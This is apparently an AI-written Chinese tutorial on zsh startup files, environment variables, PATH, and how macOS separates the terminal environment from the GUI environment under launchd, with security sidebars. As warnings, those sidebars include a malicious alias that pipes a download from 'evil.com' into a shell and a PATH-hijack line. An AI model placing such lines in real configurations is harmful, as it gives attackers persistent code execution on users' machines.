- **哲学差异（影响你写命令的方式）**：PowerShell 传的是「.NET 对象」（管道里流的是结构化对象）；Unix shell（zsh/bash）传的是「**文本流**」。本课程全是后者——`ls | grep`、`cat | awk` 这类文本管道正是 Unix 的超级武器（第七卷细讲）。

你机器实测：
```bash
SHELL=/bin/zsh        # 你的默认 shell 是 zsh
当前进程: /bin/zsh     # 当前跑的也是 zsh
```
说明你的环境完全在「Unix 文本流」这一脉上。

## 3.3 `.zshrc` 到底是什么（你的痛点）

这是你最初踩坑的地方。先纠正一个最常见的误解：

- ❌ **误解**：`.zshrc` 是个「设置文件」，改了就全局生效。
- ✅ **真相**：`.zshrc` 是一个 **shell 脚本**。每次启动「交互式非登录 shell」时，zsh 会**把它从头到尾执行一遍**。

这带来三个关键认知：

1. **它不是数据库，是程序**。zsh 启动 → 读这个文件 → 逐行执行里面的命令（`export`、`alias`、`source` 别的脚本……）。
2. **你那次「全 not found」的真相**：`.zshrc` 有语法错误 → 执行到出错那行就**中断** → 后面加载 nvm 的代码没跑 → `~/.nvm/.../bin`（node/claude/codex 都在那）没进 PATH → 一切 command not found。
3. **改完要「重开终端」或 `source ~/.zshrc` 才生效**——因为脚本只在启动时执行一次。

你机器 `.zshrc` 当前内容（就是你修复后的干净版）：
```bash
export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # nvm bash completion
```
这 3 行做的事：① 设 `NVM_DIR` 变量 → ② 加载 nvm 主脚本（nvm 内部把 `node` 的 bin 目录塞进 PATH）→ ③ 加载补全。

> **安全视角（重点）**：`.zshrc` 是「**每次开终端自动以你身份执行的代码**」。攻击者一旦能写这个文件，就等于**永久控制你的终端**——可以偷偷加恶意 alias、把 PATH 指到钓鱼程序、甚至每次启动回连远程服务器。所以：`.zshrc` 是**安全敏感文件**。只从你信任的来源加内容；改完 `cat ~/.zshrc` 扫一眼有没有不认识的命令。你之前那次如果是「被恶意写入」而非手误，后果比「写坏」严重得多。

## 3.4 启动链全景：login shell vs interactive shell，谁先谁后

最容易绕的地方。zsh 启动时按「类型」决定读哪些文件。两个维度：

- **是否登录 shell（login）**：要不要初始化整个会话环境（如启动代理、设全局 PATH）。
- **是否交互 shell（interactive）**：要不要给人和键盘交互（显示提示符、开补全）。

macOS 上最常见的两种启动：

| 场景 | 类型 | 读取的文件顺序 |
|---|---|---|
| SSH 登录 / 系统登录 | 登录 + 交互 | `/etc/zprofile` → `~/.zprofile` → `/etc/zshrc` → `~/.zshrc` |
| 双击打开 Terminal/iTerm2 的每个标签页 | 交互 + **非登录** | `/etc/zshrc` → `~/.zshrc`（**不读 zprofile**） |

```mermaid
flowchart TD
    A[启动 zsh] --> B{是 login shell?}
    B -->|是| C[/etc/zprofile/]
    C --> D[~/.zprofile]
    B -->|否| F
    D --> F[/etc/zshrc 系统全局]
    F --> G[~/.zshrc 你的配置 ← 最常读]
    G --> H[开始交互]
```

你机器系统级文件实测：
```bash
-r--r--r--  root  wheel  304  /etc/zprofile   # 存在
-r--r--r--  root  wheel  3191 /etc/zshrc      # 存在（比 zprofile 大很多，系统默认配置在这）
/etc/zshenv /etc/zlogin /etc/zlogout          # 均不存在
```
注意完整规则里还有个 `/etc/zshenv` 最优先（所有 shell 都读，你机器没它所以忽略）。你平时开的新终端走的是：`/etc/zshrc`（系统全局）→ `~/.zshrc`（你的）。

⚠️ **这为什么重要（排错 + 安全）**：
- 如果你把「设置环境变量」写进了 `~/.zprofile`，但平时开的是**交互非登录** shell，那它**根本不读**——你改了等于没改。很多人卡在这。
- 正确习惯：**PATH / alias / function 写 `~/.zshrc`**（所有交互终端都读）；**只在登录时跑一次的**（如启动后台代理）才写 `~/.zprofile`。

**WSL2/Linux 对照**：Linux 桌面终端默认开「交互非登录」bash，读 `~/.bashrc`；SSH 登录是登录 shell 读 `~/.bash_profile`/`~/.profile`。行为一致，只是文件名不同。

## 3.5 环境变量机制：`export` 是什么，为什么不直接写 `PATH=...`

新手常写错：
```bash
PATH="/usr/local/bin:$PATH"            # ❌ 没 export：只对当前 shell 脚本内部可见，子进程看不到
export PATH="/usr/local/bin:$PATH"     # ✅ export = 让这个变量传给子进程
```

原理（呼应第一卷「每进程独立」）：
- 每个进程有**自己一份**环境变量副本。
- 父进程 `export` 的变量，子进程启动时**继承一份拷贝**。
- 没 `export` 的普通 shell 变量，只在当前 shell 内部，子进程（如你运行的 `node`、`claude`）**看不到**——所以 `node` 找不到，常因为 PATH 没 export 或没进这条链。

你机器当前 PATH（实测前几段）：
```bash
/Applications/WorkBuddy.app/.../safe-bin
/Users/ioao/.workbuddy/binaries/node/versions/22.22.2/bin
/Users/ioao/.nvm/versions/node/v26.5.0/bin   # ← nvm 加的，claude/codex/node 都在这
/usr/local/bin
/usr/bin
/bin
...
```
`export` 在 zsh 里是 **reserved word（保留字）**，不是外部命令——它直接改当前 shell 的环境，印证「环境变量是 shell 内部机制，不是某个程序」。

## 3.6 别名、函数、PATH 追加——你天天要改的「三板斧」

**① 别名 alias**：给长命令起短名
```bash
alias ll='ls -la'        # 列出详细+隐藏
alias gs='git status'
alias ..='cd ..'
```
你机器默认就带 zsh 自带的两个：`run-help → man`、`which-command → whence`（实测 `alias` 可见）。

**② 函数 function**：比 alias 强，能带逻辑
```zsh
mkcd() { mkdir -p "$1" && cd "$1" }   # 建目录并立刻进入
```
`$1` 是第一个参数；`"$1"` 加引号是为了**防止路径里有空格被拆成两个词**（这也是安全习惯）。

**③ PATH 追加**：把新工具目录加进 PATH
```zsh
export PATH="$HOME/.local/bin:$PATH"   # 把自定义 bin 放最前面（优先）
```
nvm 就是这么干的——`nvm.sh` 内部执行类似 `export PATH="$NVM_DIR/versions/node/$VERSION/bin:$PATH"`，把你当前 node 的 bin 插到 PATH **最前面**。

> **安全视角（重点 · PATH 劫持）**：PATH 是**从左到右优先**查找的。这意味着——**如果把恶意目录放到最前面，它就能「冒充」系统命令**。
> ```
> 攻击者写:  export PATH="/tmp/evil:$PATH"
> 你敲 ls → 系统先找 /tmp/evil/ls（恶意程序）→ 中招，而你还以为在正常用 ls
> ```
> 经典手法：在 PATH 靠前处放同名 `ls`/`sudo`/`cd`，等你运行就触发恶意代码（还能顺手调真命令伪装正常）。防御三招：
> - 永远别把 `.`（当前目录）或不可信目录放 PATH 前面；
> - 跑敏感命令用**绝对路径**（`/usr/bin/sudo` 而非 `sudo`）；
> - 审查 `.zshrc` 里每条 `export PATH=...`，确认每个目录你都认识。
>
> **别名钓鱼**：`alias sudo='curl evil.com/x.sh | sh'` 写在恶意 `.zshrc` 里，你每次 `sudo` 实际在跑恶意脚本。所以**别盲目复制网上的 alias 配置**，尤其带管道/下载的。

## 3.7 为什么一个引号写错，整个文件就废：Shell 语法脆弱点

你最初那次坑就在这。Shell（zsh/bash）是**逐行解释、对引号/空格极敏感**的语言：

| 符号 | 含义 |
|---|---|
| `"..."` 双引号 | 变量会被展开（`"$HOME"` → `/Users/ioao`） |
| `'...'` 单引号 | 原样，不展开 |
| `` `...` `` 或 `$(...)` | 命令替换（先执行里面，再用输出替换） |

一个引号没闭合 → 后面整段被当成字符串 → 语法错误 → 文件执行中断。

你之前 `.zshrc` 的损坏（回忆恢复）：
```bash
expert NVM_DIR="$HOME/.nvm"          # expert 应为 export；且整行语义错
[ -s "$NVM_DIR/nvm.sh ] && \.        # 引号缺失："$NVM_DIR/nvm.sh 少了收尾的 "
```
报错两点：① `command not found: expert`（zsh 把 `expert` 当命令）；② 引号不匹配 → 后续行语法错 → nvm 没加载 → PATH 没加 node → 一切 not found。

**防御与自检四招**：
1. 改前备份：`cp ~/.zshrc ~/.zshrc.bak`（你这次就是我帮你备份的）
2. 改完立即**语法检查**（不执行，只查语法）：`zsh -n ~/.zshrc && echo "语法 OK"` ← 能拦住 90% 的引号错误
3. 或用 `source ~/.zshrc` 试跑，看报不报错
4. 出错别慌：开新终端若有问题，`cp ~/.zshrc.bak ~/.zshrc` 一键还原

你机器当前 `.zshrc` 是干净的，验证一下：
```bash
$ zsh -n ~/.zshrc && echo "语法 OK"
语法 OK
```

## 3.8 边讲边装：用 Starship 给 Shell 换个信息丰富的提示符

原理学完，该配手感了。前面说「先用裸 zsh 学原理」——现在装一个轻量提示符 **Starship**：它只改提示符样式（显示 git 分支、node 版本、路径），一行配置，且正好让你在**真实的 `.zshrc` 上练手 3.3~3.6**。

你机器 **Homebrew 已装**（之前记录是未装，现在已就绪），直接：
```bash
brew install starship
```
装好后，在 `~/.zshrc` **末尾追加两行**（用你刚学的知识）：
```zsh
# >>> Starship 提示符 >>>
eval "$(starship init zsh)"
# <<< Starship 提示符 <<<
```
让改动生效：
```bash
source ~/.zshrc
```
现在提示符变成彩色、带 git 状态的样式。

> 这一步正好把本卷串起来练：
> - 你在**编辑 `.zshrc`**（3.3 配置即代码）
> - `eval "$(...)"` = 命令替换 + 执行：`starship init zsh` 输出一段 zsh 代码，`eval` 执行它（3.7 的 `$()` 机制）
> - 改完 `source` 生效（3.3 脚本只在启动跑一次）
> - 加之前记得 `cp ~/.zshrc ~/.zshrc.bak`（3.7 防御）

> **安全提示**：Starship 是可信开源项目，官方用 `brew install` 而非 `curl | sh`。任何「往 `.zshrc` 加 `eval "$(curl ...)"`」的教程都要警惕——那等于「下载一段代码直接以你身份执行」。
>
> **Oh My Zsh 何时装**：它是更重的框架（自带几百插件）。建议**等你对裸 zsh 完全熟了**再装，否则容易「只会用框架、不懂原理」。本卷目标就是让你懂原理。

## 第三卷安全视角小结

| 知识点 | 安全含义 |
|---|---|
| 终端 / Shell / TTY 分离 | 终端程序本身可被注入；shell 配置是攻击面 |
| `.zshrc` = 自动执行的代码 | 写入即持久控制；只信可信来源，改完检查 |
| 启动链 login/interactive | 配置写错文件 = 不生效；也决定后门是否加载 |
| `export` 环境继承 | 变量向子进程传递面；敏感信息可能泄露 |
| PATH 顺序优先 | PATH 劫持冒充系统命令；勿把 `.`/不可信目录放前面 |
| alias 覆盖 | 别名钓鱼（`alias sudo=恶意`）；勿盲抄配置 |
| 引号/语法脆弱 | 一个错字废整个环境；改前备份 + `zsh -n` 检查 |

# 第四卷：环境变量与进程环境——GUI 为什么找不到你的命令（★ 安全视角）

## 4.0 为什么这卷存在

第三卷你学会了 `export` 和「每进程独立」——变量是进程出生时从父进程**拷贝**的一份，改自己不影响别人。这一卷把这句话**升级成一个完整的世界观**：

> **环境变量不是「全局设置」，而是「每个进程出生时从祖先拷贝来的一份键值表」。**
> macOS 上，**终端**和 **GUI 应用**由**不同的祖先**启动，拿到的环境**天然分裂**。

你那个 WeSight 检测不到 CLI 的坑，就是这条规律的一个具体伤口——但本卷不只讲它。讲清环境是怎么一层层传下来的，你就再也不会被「终端能用、GUI 不行」这类问题卡住。

---

## 4.1 环境变量到底是什么：进程出生时的一份拷贝

每个进程启动时，内核给它一块**环境块（environment block）**——本质就是一个 `key=value` 的字符串数组，跟着进程一起诞生。

关键机制：
- **继承拷贝**：父进程 `fork`/`exec` 子进程时，子进程拿到的是父环境的一份**拷贝**，不是引用。
- **改自己不影响别人**：你在子进程里改了环境变量，退出后父进程、兄弟进程**毫无变化**。
- **没有「全局变量」这回事**：这是最大的直觉误区——你以为 `export` 是「设置了一个系统级的东西」，其实它只是「让我的子孙能看到」。

**边讲边装**：亲手验证「改子进程不影响父」
```bash
export FOO=bar
echo "父进程 FOO=$FOO"                 # 父进程 FOO=bar

# 开一个子 shell，在里面改 FOO
bash -c 'export FOO=changed; echo "子进程 FOO=$FOO"'   # 子进程 FOO=changed

echo "父进程 FOO 还是=$FOO"            # 父进程 FOO 还是=bar（没变！）
```
看，`bash -c` 那个子进程把 `FOO` 改成 `changed` 退出了，父进程的 `FOO` 纹丝不动。这就是「每进程独立」的现场版。

再看自己进程的环境全貌：
```bash
env            # 列出当前进程所有环境变量
printenv PATH  # 只看 PATH
echo "$PATH"   # 等价（shell 展开变量）
```

> **Windows 对照**：Windows 里 `set` 看当前会话环境，`setx VAR value` 把变量**持久写进注册表**（用户/系统级）。`set` 只改当前进程、`setx` 改的是「未来进程出生时从注册表继承的值」——和 macOS 的「shell 局部 vs export」是同一对概念，只是存储介质从「进程环境块」换成了「注册表」。

---

## 4.2 环境是怎么一层层设起来的（Shell 侧）

终端里为什么有那么多环境变量？因为它们是 **Shell 启动文件一层层 `export` 出来的**。zsh 的启动顺序（简化）：

| 阶段 | 文件 | 谁读 |
|---|---|---|
| 任何 zsh 最先读 | `/etc/zshenv` → `~/.zshenv` | 全部 |
| 登录 shell | `/etc/zprofile` → `~/.zprofile` | 仅登录 |
| 交互 shell | `/etc/zshrc` → `~/.zshrc` | 仅交互 |
| 登录收尾 | `/etc/zlogin` → `~/.zlogin` | 仅登录 |

你平时开的终端是**交互非登录** shell，所以读的是 `~/.zshenv` + `~/.zshrc`。`export PATH=...` 写在 `~/.zshrc` 里，于是**你这个终端进程及其所有子进程**都继承了这份 PATH。

`export` 的本质（回扣第三卷 3.5）：把变量从「shell 局部」**提升**进「环境块」，让子进程能继承。没 `export` 的普通变量，子进程看不到。

**边讲边装**：验证「Shell 文件设的环境，只活在 Shell 世界」
```bash
# 在 ~/.zshrc 里有一行 export PATH=...，终端能看到：
echo "$PATH"          # 一长串，含你加的目录

# 但 GUI 应用（由 launchd 直接启动）根本不经过 ~/.zshrc —— 它看不到上面那串
```
记住一句话：**Shell 启动文件只服务 Shell 世界，碰不到 GUI 世界。**

---

## 4.3 macOS 上 GUI 与 Shell 的「两个世界」（本卷核心）

这是理解一切「终端能用、GUI 不行」的钥匙。看两条**祖先链**：

```
终端世界：  launchd ──► 用户会话(loginwindow) ──► Terminal.app ──► zsh
                                                  （读 ~/.zshrc，环境你组装）

GUI 世界：  launchd ──► 应用（如 WeSight.app）
            （直接由 launchd / WindowServer 启动，不读 ~/.zshrc）
```

两点关键：
1. **GUI 应用是 launchd 的「孙辈」，不是 Terminal 的孙辈**——它从 launchd 继承环境，和你的 `.zshrc` 八竿子打不着。
2. launchd 给 GUI 设的环境从哪来？主要来自：
   - **`/etc/paths`**：一行一个目录，构成所有进程（含 GUI）的默认 PATH 基底；
   - **`/etc/paths.d/`**：目录，里面的每个文件再贡献一些目录；
   - **LaunchAgents 的 `EnvironmentVariables`**：用户级启动项可往 launchd 环境里加变量。
   - ⚠️ **`/etc/launchd.conf` 已废弃**（macOS 10.10 起不再读取）——网上老教程让你改它，别信。

**边讲边装**：亲手对比两个世界的 PATH
```bash
# 终端世界（你的 shell 环境）
echo "$PATH"

# GUI 世界（launchd 给应用的环境）—— 注意这是 launchctl 读 launchd 域
launchctl getenv PATH
```
两者大概率**不一样**：你 `.zshrc` 里加的那些目录，在 `launchctl getenv PATH` 里常常**看不到**。这就是 WeSight 找不到 CLI 的根因——它活在 GUI 世界，没继承你在 Shell 世界 `export` 的 PATH。

再看祖先，坐实「GUI 不归 Terminal 管」：
```bash
# 找一个 GUI 应用（如 Finder）的 PID，看它父进程
ps -o pid,ppid,comm -p $(pgrep Finder | head -1)
# 父进程会是 launchd(1) 或它的后代，绝不是 Terminal
```

> **收口到你的 WeSight 坑**：WeSight 是 GUI 应用，由 launchd 启动，环境来自 `/etc/paths` 那一套，**不读 `.zshrc`**。你 `.zshrc` 里 `export` 的那些 CLI 路径，它一个都看不见 → 检测不到。你之前用「软链到 `/usr/local/bin`」解决，正是把 CLI 塞进了 GUI 世界本来就认得的那个 PATH 目录里。

---

## 4.4 PATH 与 Homebrew：命令到底「装哪儿了」

PATH 一串目录，**从左到右优先**查找。命令「装哪儿」直接决定 GUI 找不找得到它：

| 芯片 | Homebrew 默认前缀 | 二进制所在 |
|---|---|---|
| Intel Mac | `/usr/local` | `/usr/local/bin` |
| Apple Silicon | `/opt/homebrew` | `/opt/homebrew/bin` |

- `/usr/local/bin` **默认就在** `/etc/paths` 里 → GUI 世界天生认得。
- `/opt/homebrew/bin` 在不在 GUI 的 PATH，取决于 Homebrew 安装时是否往 `/etc/paths.d/` 写了它（以及你是否登录 Shell 把它加进了 `.zshrc`）。

**边讲边装**：看清真实路径与系统 PATH 基底
```bash
which brew                  # 例如 /opt/homebrew/bin/brew
ls -l $(which brew)         # 确认它是真实文件还是软链
cat /etc/paths              # GUI 世界的 PATH 基底（通常含 /usr/local/bin，未必含 /opt/homebrew/bin）
ls /etc/paths.d/            # 有没有 Homebrew 贡献的条目
```
如果 `brew` 在 `/opt/homebrew/bin`、而 `/etc/paths` 和 `/etc/paths.d/` 都没有它，那 GUI 应用当然 `brew: command not found`——哪怕你终端里敲得飞起。

---

## 4.5 让 GUI 找到命令：四种正统解法

知道了根因，解法就有多种，按「作用范围 / 持久性 / 是否需 sudo」挑：

| 解法 | 做法 | 持久 | 范围 | 需 sudo | 说明 |
|---|---|---|---|---|---|
| **A 软链到系统 PATH** | `sudo ln -s /opt/homebrew/bin/foo /usr/local/bin/foo` | ✅ 永久 | 全用户 GUI | 是 | 你给 WeSight 用的；只解决单个命令 |
| **B launchctl + LaunchAgent** | `launchctl setenv PATH "..."`；写 `~/Library/LaunchAgents/xxx.plist` 的 `EnvironmentVariables` 登录时重设 | ✅（Agent 持久） | 当前用户 GUI | 否 | 改的是 launchd 域，影响它之后启动的所有 GUI |
| **C 应用自身配置** | VS Code `terminal.integrated.env`、各类 IDE 的 PATH 设置项 | ✅ | 仅该应用 | 否 | 最干净、范围最小，不污染全局 |
| **D env 包装 / LSEnvironment** | 写 `.app/Contents/Info.plist` 的 `LSEnvironment`，或用一个设好环境再 `exec` 应用的脚本 | ✅ | 仅该应用 | 否 | 适合分发自己的 .app |

要点：
- **`/etc/launchd.conf` 已废弃**，别再按老教程改它——改了也不生效，只会让你困惑。
- **解法 A 最直接**但只能一个个命令来；**解法 B 最通用**但涉及 LaunchAgent，需谨慎（见 4.6）；**解法 C 最安全**，优先看你的应用支不支持。
- 本卷**只讲原理与选型，不替你执行任何系统改动**——你确认要哪种，我们再动手。

---

## 4.6 安全视角：环境本身就是攻击面（延伸第二/三卷）

环境不是中立的便利贴，它是**所有子进程都会继承的东西**，所以也是攻击者的落脚点。

- **环境变量泄露**：把 `API_KEY`、`TOKEN` 写进 `~/.zshrc` 的 `export`，意味着你启动的**每一个**子进程都看得到它。更糟的是，这类配置文件很容易被误传上公开仓库——你 terminal-list 那次就把指向 iCloud 的软链差点提交上去（回扣中枢治理教训）。**密钥别长期躺在环境里**，用完即销，或走专门的密钥管理。
- **环境注入**：恶意 `LaunchAgent` 可以篡改 launchd 的环境，或设置 `DYLD_INSERT_LIBRARIES`——这个变量会让 macOS 的动态链接器把额外库**塞进进程**。攻击者借此让 GUI 应用「悄悄多加载一个恶意库」。SIP 能挡住**受保护的系统二进制**，但挡不住你自己的普通 App，所以**审查 `~/Library/LaunchAgents/` 里每一条**是基本功。
- **PATH 劫持在 GUI 世界更隐蔽**：第三卷 3.6 讲过终端侧 PATH 劫持（把恶意目录放 PATH 最前冒充 `ls`/`sudo`）。在 GUI 世界，PATH 来自 `/etc/paths`，如果那里被写入恶意目录，**所有 GUI 程序**都按这个顺序找命令，而用户几乎不会去检查 GUI 的 PATH——危害面更大、更难察觉。

> **防御三招**：① 不在环境里长期放密钥；② 审查 `~/Library/LaunchAgents/` 每条配置的来源与内容；③ 任何让你「往启动环境加变量」的教程，先确认它改的是哪一层、影响哪些进程。

---

## 4.7 跨平台对照：Windows ↔ macOS ↔ WSL

分裂不是 macOS 独有，但 macOS 的 `launchd` 模型让「终端 vs GUI」分裂**最明显**。

- **Windows**：系统变量 / 用户变量存在**注册表**，用户登录时由系统设好，被 `explorer.exe` 继承给**所有 GUI 程序**。所以 Windows 上 GUI 反而**能读到**你设的用户变量——因为大家同一个祖先（`explorer`）。Windows 的「分裂」更多体现在：改了变量后**已经运行的进程**看不到；以及服务（不同会话）未必继承。
- **WSL**：WSL 启动时**自动导入** Windows 的 PATH 与部分环境变量（所以你在 WSL 里 `echo $PATH` 能看到 `/mnt/c/...`）。但反过来——**Windows 的 GUI 程序看不到 WSL 里的 PATH**（反向分裂）。你在 WSL 里装的工具，Windows 侧应用同样找不到，和 macOS 的坑是镜像关系。

结论：**任何系统，环境都是「按祖先链继承」的；谁启动你，谁决定你能看见什么。** macOS 只是把「终端」和「GUI」放在了两条不同的启动链上，所以显得格外分裂。

---

## 4.8 收束：回到你的 WeSight 坑

完整归因现在清晰了：
1. WeSight 是 GUI 应用，由 **launchd** 启动，环境来自 `/etc/paths` 那一套；
2. 你 `.zshrc` 里 `export` 的 CLI 路径**只活在 Shell 世界**，launchd 那套根本没它；
3. 所以 WeSight 检测不到 CLI。

你用的**解法 A（软链到 `/usr/local/bin`）**是最快的一招——把 CLI 塞进 GUI 世界本来就认得的目录。但本卷告诉你，还有 **B（LaunchAgent 改 launchd 域）/ C（应用自身配置）/ D（LSEnvironment）** 可选，各有取舍。下次遇到同类问题，先问自己一句：**「这个程序是谁启动的？它的环境从哪来？」**——答案一出来，解法就出来了。

## 第四卷安全视角小结

| 知识点 | 安全含义 |
|---|---|
| 环境是每进程拷贝、继承而来 | 改自己不影响别人；也是「所有子进程都看得到」的泄露面 |
| Shell 文件只服务 Shell 世界 | `export` 进 `.zshrc` 的变量，GUI 应用永远看不到 |
| launchd 是 GUI 环境的祖先 | 改 GUI 环境要动 launchd 域（`/etc/paths.d` / LaunchAgent），不是 `.zshrc` |
| `/etc/launchd.conf` 已废弃 | 老教程别信，改了不生效 |
| 环境泄露 | 密钥写 `export` 会被所有子进程继承、易误传仓库 |
| 环境注入 / `DYLD_INSERT_LIBRARIES` | 恶意 LaunchAgent 可让 GUI 静默加载恶意库；审查 `~/Library/LaunchAgents` |
| GUI 世界 PATH 劫持更隐蔽 | `/etc/paths` 被写恶意目录，所有 GUI 程序受害且难察觉 |

## 下一卷预告：第五卷 权限——谁能动我的环境（★ 安全视角）

第四卷你看到：`/usr/local/bin` vs `/opt/homebrew/bin`、`/etc/paths.d` 要不要写、LaunchAgent 能不能加载——这些归根结底都是**「谁有权改哪里」**的问题。第五卷就来拆 macOS 的权限模型：文件权限（rwx + 扩展属性）、`sudo` 与管理员、以及 **SIP（系统完整性保护）** 如何锁死系统目录、连 `root` 都改不了。你会明白为什么 `/usr/bin` 动不得、为什么你那一软链只能放 `/usr/local/bin` 而不能放 `/usr/bin`——那是 SIP 划的红线。

> **待办（更新）**：
> ① 第三卷实操：装 Starship（`brew install starship`），往 `.zshrc` 末尾加 init 两行，跑 `zsh -n ~/.zshrc` 验证语法 OK
> ② 仍待办：`sudo ln -sf ~/.nvm/versions/node/v26.5.0/bin/{node,npm,npx,claude,codex} /usr/local/bin/`（让 WeSight 检测到 CLI）
> ③ 定期 `cat ~/.zshrc` 审查有没有不认识的命令；改前先 `cp ~/.zshrc ~/.zshrc.bak`
